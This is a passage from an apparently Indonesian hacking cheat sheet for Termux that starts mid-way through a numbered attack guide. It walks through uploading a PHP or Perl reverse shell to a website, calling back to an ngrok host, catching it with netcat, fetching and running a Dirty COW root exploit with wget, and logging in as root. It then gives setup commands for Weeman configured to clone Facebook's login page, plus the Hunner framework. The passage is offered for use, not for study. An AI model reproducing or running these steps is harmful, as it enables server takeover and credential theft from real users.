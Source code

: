 (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
dan Edit file nya, cari $ip dan $port ganti dengan (0.tcp.ngrok.io:port-ngrok)
~>Upload ke website (PERL: ON)(PHP: ON)
5. in termux command :
$ nc -lnvp port
6. in backdoor shell :
$ perl perl-reverse-shell.pl
(atau)
> http://situs.co.li/perl-reverse-shell.php
(Run the script simply by browsing to the newly uploaded file in your web browser)

.—-(after backconnect successfully)—

7. upload LOCALROOT
$ wget https://domain.com/localroot/dirty
$ chmod 777 dirty
$ ./dirty
New password: ndasmu
(successfully rooted)
8. import TTY shell
===>jika menggunakan dirty<===$ echo “import pty; pty.spawn(‘/bin/bash’)” > /tmp/sad.py
$ python /tmp/sad.py
===>jika menggunakan cowroot<===
$ python -c ‘import pty;pty.spawn(“/usr/bin/passwd”)’
(https://evertpot.com/189/)
.——————————————–
9. login as ROOT
$ su rintoar
Password: ndasmu
.——————————————–
10 ./mass (https://m.youtube.com/watch?v=HPQQok40v78)
.——————————————–

WEEMAN [✓]
apt update && apt upgrade -y
apt install git -y
apt install python2 -y
git clone https://github.com/evait-security/weeman
cd weeman
chmod 777 weeman.py
python2 weeman.py
Ex
set url http://facebook.com
set action_url http://facebook.com
run

___________________________________________

Hunner framework
apt update
apt install python
apt install git -y
git clone https://github.com/b3-v3r/Hunner
cd Hunner
chmod 777 hunner.py
python hunner.py
___________________________________________

